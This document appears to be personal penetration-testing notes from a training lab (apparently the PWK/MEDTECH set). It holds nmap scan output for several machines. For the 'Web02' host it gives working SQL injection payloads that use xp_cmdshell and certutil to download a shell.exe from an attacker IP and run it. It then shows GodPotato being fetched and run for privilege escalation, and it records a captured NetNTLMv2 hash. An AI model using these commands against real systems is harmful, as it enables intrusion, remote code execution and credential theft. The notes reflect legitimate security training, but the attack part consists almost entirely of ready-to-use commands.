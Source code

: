 # VM 3
- ?
- ```
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 84:72:7e:4c:bb:ff:86:ae:b0:03:00:79:a1:c5:af:34 (RSA)
    |   256 f1:31:e5:75:31:36:a2:59:f3:12:1b:58:b4:bb:dc:0f (ECDSA)
    |_  256 5a:05:9c:fc:2f:7b:7e:0b:81:a6:20:48:5a:1d:82:7e (ED25519)
    80/tcp open  http    WEBrick httpd 1.6.1 (Ruby 2.7.4 (2021-07-07))
    |_http-title: PAW! (PWK Awesome Website)
    |_http-server-header: WEBrick/1.6.1 (Ruby/2.7.4/2021-07-07)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  ```
## Foothold


# VM 4
- Web02
- Microsoft Windows Server 2022 Standard
- 10.0.20348 N/A Build 20348

## FootHold
- Ez SQLi
    ``` 
    ';EXEC master.dbo.xp_cmdshell 'ping 192.168.45.219';--
    ';EXEC master.dbo.xp_cmdshell 'certutil -urlcache -split -f http://192.168.45.219/shell.exe C:\\Windows\temp\shell.exe';--
    ';EXEC master.dbo.xp_cmdshell 'cmd /c C:\\Windows\\temp\\shell.exe';--
    ```
## Root 
- SeImpersonate Permission Found & NET4.0 -> GodPotato
  ```
    iwr -uri http://192.168.45.155/GodPotato-NET4.exe -Outfile GodPotato-NET4.exe
    .\GodPotato-NET4.exe -cmd 'whoami'
    .\GodPotato-NET4.exe -cmd 'C:\Windows\temp\shell.exe'
   ```
- Interesting Info
    1. ``` 
            Version: NetNTLMv2
            Hash:    WEB02$::MEDTECH:1122334455667788:757d0de376d8456d510a56bbc91d2ab2:0101000000000000229fe7efdce0da013a25e15c16fb223a000000000800300030000000000000000000000000300000d8c929a18f8306528b604ac0f3f091c5301c8c3d9d4689b5c867902e15f0f4230a00100000000000000000000000000000000000090000000000000000000000
      ```
    2. 


# VM 5
- ?
- ```
    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 60:f9:e1:44:6a:40:bc:90:e0:3f:1d:d8:86:bc:a9:3d (ECDSA)
    |_  256 24:97:84:f2:58:53:7b:a3:f7:40:e9:ad:3d:12:1e:c7 (ED25519)
    1194/tcp open  openvpn?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
